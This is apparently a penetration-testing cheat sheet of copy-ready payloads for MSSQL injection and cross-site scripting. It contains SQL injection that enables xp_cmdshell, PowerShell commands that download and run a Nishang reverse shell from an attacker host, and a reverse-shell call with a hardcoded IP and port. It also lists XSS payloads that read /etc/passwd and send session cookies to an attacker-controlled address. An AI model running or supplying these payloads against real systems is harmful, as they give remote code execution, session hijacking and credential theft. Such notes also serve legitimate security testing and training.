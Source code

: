 -> Enable xp_cmdshell
```
' UNION SELECT 1, null; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```

-> RCE
```
' exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip>/InvokePowerShellTcp.ps1')" ;--
```
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

## Abuse MSSQL
-> edit Invoke-PowerShellTcp.ps1, adding this:  
```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
```
```
impacket-mssqlclient <user>@<ip> -db <database>
```
```
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://<ip>/Invoke-PowerShellTcp.ps1\")
```
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

## Cross-Site Scripting
1-> Identify the language and frameworks used  
2-> Identify entry points (parameters, inputs, responses reflecting values you can control, etc)   
3-> Check how this is reflected in the response via source code preview or browser developer tools  
4-> Check the allowed special characters  
```
< > ' " { } ;
```
5-> Detect if there are filters or blockages and modify as needed to make it work

### XSS to LFI
```
<img src=x onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>
```
	
### XSS - Session Hijacking
-> Examples
```
<script>new Image().src="http://<IP>/ok.jpg?output="+document.cookie;</script>
<script type="text/javascript">document.location="http://<IP>/?cookie="+document.cookie;</script>  
<script>window.location="http://<IP>/?cookie="+document.cookie;</script>
<script>document.location="http://<IP>/?cookie="+document.cookie;</script>  
<script>fetch('http://<IP>/?cookie=' + btoa(document.cookie));</script>  
```
